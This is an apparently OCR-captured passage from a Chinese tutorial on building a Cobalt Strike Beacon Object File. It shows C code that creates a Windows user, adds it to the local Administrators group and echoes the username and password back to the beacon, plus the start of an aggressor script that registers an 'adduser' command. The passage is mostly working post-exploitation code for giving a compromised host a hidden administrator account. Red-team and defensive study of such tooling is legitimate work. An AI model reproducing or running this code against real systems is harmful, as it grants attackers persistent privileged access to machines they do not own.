 ```C
  //创建用户 
  // https://learn.microsoft.com/zh-cn/windows/win32/api/lmaccess/nf-lmaccess-netuseradd?redirectedfrom=MSDN
  nStatus = NETAPI32$NetUserAdd(
    NULL, //local server
    1,    // information level
    (LPBYTE)&UserInfo,
    NULL // error value
  );
  if (nStatus == NERR_Success) {
    BeaconPrintf(CALLBACK_OUTPUT, "NetUserAdd Success!", NULL);
    BeaconPrintf(CALLBACK_OUTPUT, "Username: %ws, PassWord: %ws", UserInfo.usri1_name, UserInfo.usri1_password);
  }
  else {
    BeaconPrintf(CALLBACK_OUTPUT, "NetUserAdd Failed! %d", nStatus);
  }

  // 添加用户到管理员组
  // https://learn.microsoft.com/zh-cn/windows/win32/api/lmaccess/nf-lmaccess-netlocalgroupaddmembers?redirectedfrom=MSDN
  LOCALGROUP_MEMBERS_INFO_3 account;
  account.lgrmi3_domainandname = UserInfo.usri1_name;

  NET_API_STATUS aStatus;

  aStatus = NETAPI32$NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&account, 1);
  if (aStatus == NERR_Success) {
    BeaconPrintf(CALLBACK_OUTPUT, "Add to Administrators success!", NULL);
  }
  else {
    BeaconPrintf(CALLBACK_OUTPUT, "Add to Administrators failed!", NULL);
  }

}
#else

void main(int argc, char* argv[]) {
  go();
}

#endif
```

cna代码

```php
beacon_command_register(
"adduser", 
"Add a user to administrators", 
"usage: adduser [username] [password]");

alias adduser{
  local('$handle $data $args');

  $uname = $2;
  $pass = $3;

  if ($uname eq "" or $pass eq "") {
    berror($1, "usage command: help adduser");
    return;
  }

  # 读入bof文件
```